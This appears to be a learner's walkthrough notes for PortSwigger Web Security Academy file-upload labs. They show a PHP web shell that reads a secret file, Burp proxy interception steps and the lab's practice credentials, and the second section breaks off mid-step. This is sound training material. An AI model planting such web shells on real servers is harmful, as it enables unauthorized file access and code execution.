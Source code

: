 # Portswigger
## File Upload Vulnerabilities
### Remote code execution via web shell upload
```bash

Target directory /home/carlos/secret 
Submit this secret using the button provided in the lab banner. 
You can log in to your own account using the following credentials: wiener:peter

Change

<?php echo file_get_contents('/path/to/target/file'); ?>

To

<?php echo file_get_contents('/home/carlos/secret'); ?>

Upload the file

It states file is located @ 'avatar/file.php'

Go to: Home
Intercept is on
Intercept "View post"

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /files/avatars/file.php HTTP/1.1

//or//

Go directly to /files/avatars/file.php
It never specifies that you will find the /avatars/file.php in the "/files" directory

https://ac731f5f1f1a8eb0c07226a700f5005f.web-security-academy.net/files/avatars/file.php

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220504184236.png)
![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220504184557.png)

### Web shell upload via Content-Type restriction bypass
- only accepts .jpeg or .png files unless changed in Burp repeater
```bash

Target directory /home/carlos/secret 
Submit this secret using the button provided in the lab banner. 
You can log in to your own account using the following credentials: wiener:peter

Change

<?php echo file_get_contents('/path/to/target/file'); ?>

To
```